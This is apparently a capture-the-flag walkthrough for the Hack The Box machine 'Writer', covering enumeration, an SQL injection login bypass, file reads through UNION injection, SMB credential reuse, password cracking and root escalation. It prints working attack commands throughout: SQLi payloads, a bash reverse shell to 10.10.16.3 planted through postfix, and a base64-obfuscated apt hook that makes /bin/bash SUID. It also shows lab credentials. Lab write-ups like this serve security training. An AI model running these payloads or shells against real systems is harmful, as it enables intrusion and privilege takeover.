

# [Writer](https://app.hackthebox.com/machines/writer)

```bash
nmap -p- --min-rate 10000 10.10.11.101 -Pn
```


After knowing open ports(22,80,139,445), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,139,445 10.10.11.101 -Pn 
```


Let's do directory enumeration for this web application.

```bash
gobuster dir -u http://10.10.11.101/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 
```


From here, we see that there is page located in '/administrative'.

That's not CMS that we search for publicly known exploit,


But we can bypass this authentication via SQLI vulnerability.

```bash
username=admin' or 1=1 limit 1;-- -
password=dr4ks
```


We can turn on repeater as because our payload which can be shown easily on front page.

Let's do UNION based SQL Injection.

```bash
payload=' union select 1,2,3,4,5,6 -- &password=
```


We see that it prints string (2), we need to add malicious payload to retrieve sensitive files from application.

Let's read '/etc/passwd' file from our target.

```bash
payload=' union select 1,load_file("/etc/passwd"),3,4,5,6 -- &password=
```


Now, I read the file '/etc/apache2/sites-enabled/000-default.conf'


We see that it is Python application, let's read '__init__.py' file. ('/var/www/writer.htb/writer/__init__.py')


We grab credentials from here.

admin: ToughPasswordToCrack


As we read '/etc/passwd' file, possible users are www-data,kyle,john .

Let's try to access SMB Share via these credentials and it worked.

kyle: ToughPasswordToCrack


We use `smbmap` command to enumerate SMB Share.

```bash
smbmap -H 10.10.11.101 -u kyle -p ToughPasswordToCrack
```


I see that I have write permission for second share.

Let's read this by using `smbclient` command.

```bash
smbclient -U '10.10.11.101\kyle' //10.10.11.101/writer2_project
```


If I just add, reverse shell into here, then browse the main page, it can give me shell.



Let's modify this script and put into SMB share.


After browsing the main page (index.html), I got reverse shell from port 1337.


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


I find `manage.py` file on this location '/var/www/writer2_project' which gives me access to MariaDB.


```bash
python3 manage.py dbshell
```


I find credential from 'auth_user' table which is for `kyle` user.


Let's crack this via `hashcat` tool.

```bash
hashcat -m 10000 hash.txt --wordlist /usr/share/wordlists/rockyou.txt  
```


We find the password, let's login into SSH via below credentials.

kyle: marcoantonio


user.txt


I see that I am in the 'filter' group via `id` command.


Let's search the files via this group.

```bash
find / -group filter 2>/dev/null
```


I can do privilege escalation via '/etc/postfix/claimer' by writing email to 'john' which consist of reverse shell.

```bash
echo "bash -c 'bash -i &>/dev/tcp/10.10.16.3/1338 0>&1'" > /etc/postfix/disclaimer && echo -e "HELO writer.htb\nMail From:kyle@writer.htb\nRCPT To: john@writer.htb\nData\nTo: john@writer.htb\nFrom: kyle@writer.htb\nSubject: Testing\nTesting\n." | nc localhost 25
```


I got reverse shell from port (1338).


I got private key (id_rsa) of 'john' user, and login via `ssh` command.


While doing privilege escalation, I see that this user belongs to `management` group.


That's why have full privilege to '/etc/apt/apt.conf.d' file, also `apt update` works in background process (observed by `pspy` tool)


Let's start to exploitation.

```bash
cd /etc/apt/apt.conf.d
echo 'apt::Update::Pre-Invoke {"echo L2Jpbi9iYXNoIC1jICJjaG1vZCA0Nzc3IC9iaW4vYmFzaCIK | base64 -d | bash"};' > /etc/apt/apt.conf.d/000-shell
/bin/bash -p
```


Note: Base64 encoded command which added full privilege and SUID binary into this file and real command is `/bin/bash -c "chmod 4777 /bin/bash"`


root.txt

